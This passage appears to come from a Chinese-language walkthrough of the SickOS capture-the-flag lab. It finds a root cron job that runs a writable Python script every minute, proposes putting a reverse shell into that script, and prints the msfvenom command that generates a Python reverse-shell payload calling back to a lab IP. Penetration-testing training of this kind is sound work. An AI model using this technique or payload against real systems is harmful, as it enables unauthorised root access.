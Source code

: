 查看`/etc/crontab`, 没有可利用的计划任务

![image-20221205163002904](SickOS靶场/image-20221205163002904.png)



再查看`/etc/cron.d/`目录下的文件, 发现automate文件有一条计划任务似乎可以利用, 此计划任务的内容是, 让root用户每分钟使用python命令执行`/var/www/connect.py`文件, 也就是说若我们在`connect.py`写入python反弹shell代码, 则可获取一个root用户的shell

![image-20221205163707636](SickOS靶场/image-20221205163707636.png)	



使用metasploit生成python的反弹shell代码

```
msfvenom -p cmd/unix/reverse_python lhost=192.168.47.155 lport=443 -f raw
```

![image-20221205164015113](SickOS靶场/image-20221205164015113.png)
